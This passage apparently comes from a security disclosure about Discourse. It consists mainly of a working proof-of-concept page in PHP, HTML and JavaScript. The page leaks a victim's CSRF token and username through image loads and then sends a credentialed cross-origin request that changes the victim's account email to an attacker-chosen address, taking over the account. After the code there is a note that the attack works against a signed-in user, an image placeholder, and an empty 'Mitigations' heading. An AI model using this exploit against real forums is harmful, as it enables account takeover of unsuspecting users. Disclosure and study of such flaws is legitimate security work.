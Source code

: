 ```php
	<img src="<?=$discourse?>/u/<?=$rand?>.css" />
	<img src="<?=$discourse?>/u/<?=$rand?>.css" />
	<img src="<?=$discourse?>/u/<?=$rand?>.css" onerror="f()" />
<script>
var user = '', change_email_to = '<?=$email_to_change_to?>';
function f() {
	fetch('?fetch=1&f=<?=$rand?>').then(function(e){return e.text()}).then(function(e){
		if(e == 'error') { alert('You are currently running the PHP on a different Cloudflare region'); return; }
		user = e.split(';')[1];
		document.getElementById('f').action = '<?=$discourse?>/users/'+user+'/preferences/email'
		submitRequest(e.split(';')[0])
	})
}
function submitRequest(csrf) {
  var xhr = new XMLHttpRequest();
  xhr.onerror = function () {
    console.log(xhr.readyState)
	if(xhr.readyState == 4) {
		alert('Account email for ' + user + ' has been changed to: ' + change_email_to);
	}
  };
  xhr.open("POST", "<?=$discourse?>/users/"+user+"/preferences/email.json", true);
  xhr.setRequestHeader("Accept", "text\/html");
  xhr.setRequestHeader("Content-Type", "application\/x-www-form-urlencoded");
  xhr.withCredentials = true;
  var body = "_method=PUT&email=" + encodeURIComponent(change_email_to) +"&authenticity_token=" + encodeURIComponent(csrf);
  var aBody = new Uint8Array(body.length);
  for (var i = 0; i < aBody.length; i++)
    aBody[i] = body.charCodeAt(i); 
  xhr.send(new Blob([aBody]));
}
</script>
    <form action="" id="f" method="POST">
      <input type="hidden" name="&#95;method" value="PUT" />
      <input type="hidden" name="email" value="<?=$email_to_change_to?>" />
      <input type="hidden" name="authenticity&#95;token" id="csrf" value="" />
      <input type="submit" style="display: none;" value="Submit request" />
	  Please wait...
    </form>
  </body>
</html>
```

If you try this against a Discourse instance while being signed in, you should see something like this when visiting this script:

{F213374}

### Mitigations
